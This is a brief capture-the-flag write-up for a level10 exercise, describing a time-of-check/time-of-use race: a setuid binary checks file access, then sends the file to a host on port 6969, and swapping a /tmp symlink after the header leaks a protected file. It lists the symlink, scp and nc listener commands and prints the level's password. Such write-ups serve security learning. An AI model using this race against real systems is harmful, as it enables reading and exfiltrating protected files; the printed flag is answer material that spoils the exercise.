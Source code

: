 The binary is using the access command to check if it is allowed to send the file to the specified host => exploit access 

The binary is a server sending the file in arg to specified host on port 6969

When testing the program with a dummy file and ```nc -l 6969```, we realize that it writes a header ".*( )*.\n" before sending the file
=> write a program that reads line by line to change file with a symbolic link just after the header is received

create a symlink to a dummy file with permissions :
```echo "exploit" > /tmp/dummy```
```ln -s /tmp/dummy /tmp/link```

copy the exploit with ```scp -P 4242 exploit.sh level10@[VM_IP]:/tmp```
we ready the server with ```nc -l 6969``` and we launch the exploit "exploit.sh". The exploit change the symlink after 0.1s and the server receives the password : woupa2yuojeeaaed06riuj63c


